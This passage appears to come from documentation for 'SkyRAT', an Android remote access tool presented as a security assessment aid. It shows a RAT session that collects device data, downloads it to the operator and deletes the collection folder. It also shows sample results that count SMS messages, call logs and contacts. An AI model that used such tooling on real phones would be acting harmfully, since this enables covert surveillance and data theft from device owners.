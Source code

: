 ### **Data Collection Workflow**

Systematic data collection:

```bash
# Create collection directory
SkyRAT:/> mkdir /sdcard/security-assessment

# Collect system information
SkyRAT:/> shell cat /proc/version > /sdcard/security-assessment/kernel.txt
SkyRAT:/> shell getprop > /sdcard/security-assessment/properties.txt

# Download collected data
SkyRAT:/> download /sdcard/security-assessment/kernel.txt
SkyRAT:/> download /sdcard/security-assessment/properties.txt

# Clean up
SkyRAT:/> delete /sdcard/security-assessment
```

## 📊 Example Results

### **Sample Device Profile**
```
Device: Samsung Galaxy S22 Ultra
Android: 13 (API 33)
IP: 192.168.1.45
MAC: 02:00:00:00:00:00
Storage: 128GB (45% used)
RAM: 12GB (8.2GB used)
SIM: Verizon (US)
```

### **Sample App Inventory**
```
Total Apps: 187
System Apps: 123
User Apps: 64
Recent Install: WhatsApp (2024-03-10)
Largest App: Netflix (245MB)
```

### **Sample Communication Summary**
```
SMS Messages: 2,847 (inbox: 1,923, sent: 924)
Call Logs: 456 entries (last 30 days)
Contacts: 234 contacts
Recent Activity: 15 messages today
```

## ⚠️ Important Notes
